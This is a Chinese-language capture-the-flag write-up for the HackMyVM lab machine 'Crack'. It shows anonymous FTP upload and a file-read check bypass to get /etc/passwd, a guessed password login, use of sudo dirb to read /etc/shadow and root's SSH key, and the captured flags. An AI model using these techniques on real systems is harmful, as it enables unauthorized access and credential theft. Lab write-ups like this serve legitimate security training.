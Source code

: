 # Crack

2025.02.26 https://hackmyvm.eu/machines/machine.php?vm=Crack

## Ip

192.168.5.39

## Scan

```
PORT      STATE SERVICE
21/tcp    open  ftp
4200/tcp  open  vrml-multi-use
12359/tcp open  unknown
```

访问 https://192.168.5.39:4200/ 显示的是一个 shell in a box 但是需要输入用户名和密码，目前没有用户凭据。

ftp 可以匿名登陆，/upload 目录权限 777 可以写文件，/upload/crack.py 将其下载，发现就是端口 12359 上运行的 python 文件。

```python
no = "NO"
while True:
        try:
                c.send('File to read:'.encode())
                data = c.recv(1024)
                file = (str(data, 'utf-8').strip())  # 这里输入 /etc/passwd
                filename = os.path.basename(file)    # 这里将返回输入路径的最后一个文件的文件名，如果输入 /etc/passwd 就返回 passwd
                check = "/srv/ftp/upload/"+filename  # 这里变成了 /srv/ftp/upload/passwd
                if os.path.isfile(check) and os.path.isfile(file):  # 这里 /srv/ftp/upload/passwd 和 /etc/passwd 都是存在的文件，直接绕过这个判断读取到 /etc/passwd
                        f = open(file,"r")
                        lines = f.readlines()
                        lines = str(lines)
                        lines = lines.encode()
                        c.send(lines)
                else:
                        c.send(no.encode())
        except ConnectionResetError:
                pass
```

nc 192.168.5.39 12359 输入 crack.py 就可以读取/srv/ftp/upload/中的文件，这里要尝试读取到系统内的其他文件，这里需要绕过这里的代码判断逻辑：os.path.isfile(check) and os.path.isfile(file) 这里上传一个空的 passwd 文件，然后 nc 连接，读取文件 /etc/passwd 这时就绕过了上述的代码判断，读取到了/etc/passwd 文件:

```
['root:x:0:0:root:/root:/bin/bash\n',
'cris:x:1000:1000:cris,,,:/home/cris:/bin/bash\n',
'shellinabox:x:106:112:Shell In A Box,,,:/var/lib/shellinabox:/usr/sbin/nologin\n']
```

这里发现了 2 个用户名 cris 和 shellinabox ，目前没有密码，尝试将用户名当成密码进行登陆。cris:cris 登陆成功。

得到了 user flag：

```
cris@crack:~$ cat user.txt
eG4TUsTBxSFjTOPHMV
```

sudo -l 发现 (ALL) NOPASSWD: /usr/bin/dirb 可以利用 dirb 扫描时传入的参数读取系统中的 root 权限的文件：

```
sudo /usr/bin/dirb http://192.168.5.3 /etc/shadow -v

root:$y$j9T$LVT9GIrLdk5L.xns1akJZ1$wmigJ7er07AT/VwIAuYSZ3j94LOCe8EJHC6d2mlZVo3:19515:0:99999:7:::
```

尝试 john 进行破解，但是没爆出来：

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=crypt
```

这里不能直接读取到/root/root.txt 应该是文件做了变形。

或者探测读取/root/.ssh/id_rsa 私钥文件:

```
sudo dirb http://192.168.5.3/ /root/.ssh/id_rsa -v
```

然后将私钥内容进行格式整理保存，并补齐首位格式：

```
cat tmp|awk -F '192.168.5.3/' '{print $2}'|awk -F ' ' '{print $1}' > root_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
```

然后将私钥上传至目标机器上，127.0.0.1:22 在本地登陆 ssh，最终获得 root flag：

```
root@crack:~# cat root_fl4g.txt
wRt2xlFjcYqXXo4HMV
```
